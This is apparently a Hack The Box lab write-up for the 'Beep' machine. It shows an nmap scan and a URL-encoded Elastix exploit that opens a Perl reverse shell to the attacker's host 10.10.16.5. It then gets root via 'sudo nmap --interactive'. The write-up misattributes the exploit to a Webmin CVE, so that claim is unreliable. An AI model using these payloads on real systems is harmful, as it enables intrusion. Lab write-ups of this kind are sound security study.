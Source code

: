 ```yaml
---
tags:
  - hack
  - linux
---
```


# HTB: [Beep](https://app.hackthebox.com/machines/Beep)

> [!tip]- Summary with Spoilers
> - This machine was running a vulnerable version of Elastix, which I exploited to gain RCE as the `asterisk` user.
> - I escalated privileges by abusing a `sudo` misconfiguration to execute `nmap` interactively, allowing me to spawn a `root` shell.

## Enumerate

```console
$ nmap -n -sCV -T4 -F $t                                                        
[...]

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp     Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http     Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3     Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: LOGIN-DELAY(0) STLS EXPIRE(NEVER) UIDL TOP PIPELINING RESP-CODES APOP AUTH-RESP-CODE IMPLEMENTATION(Cyrus POP3 server v2) USER
111/tcp   open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap     Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed SORT OK IMAP4 MAILBOX-REFERRALS UNSELECT X-NETSCAPE RENAME MULTIAPPEND RIGHTS=kxte LIST-SUBSCRIBED CATENATE ANNOTATEMORE THREAD=ORDEREDSUBJECT CHILDREN IMAP4rev1 IDLE NAMESPACE NO LITERAL+ CONDSTORE QUOTA SORT=MODSEQ LISTEXT STARTTLS THREAD=REFERENCES ACL BINARY ATOMIC URLAUTHA0001 ID UIDPLUS
443/tcp   open  ssl/http Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Elastix - Login page
|_ssl-date: 2023-10-10T22:34:46+00:00; -6s from scanner time.
|_http-server-header: Apache/2.2.3 (CentOS)
993/tcp   open  ssl/imap Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3     Cyrus pop3d
3306/tcp  open  mysql?
10000/tcp open  http     MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: -6s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 405.81 seconds
```

## Exploit

The version of Webmin is vulnerable to [CVE-2022-36446](https://github.com/emirpolatt/CVE-2022-36446), allowing RCE. ([Exploit](https://github.com/infosecjunky/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution/blob/master/exploit.py).)

The following URL is enough to trigger the exploit and initiate a reverse shell to my listener: <https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication>:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.5%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.7] 58299
id
uid=100(asterisk) gid=101(asterisk)
```

## Escalate

`sudo` gives us a lot to work with:

```console
sudo -l    
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"              
                                             
User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service  
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper 
```

I choose `nmap`:

```console
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
cat /root/root.txt
5b5170[...]
```
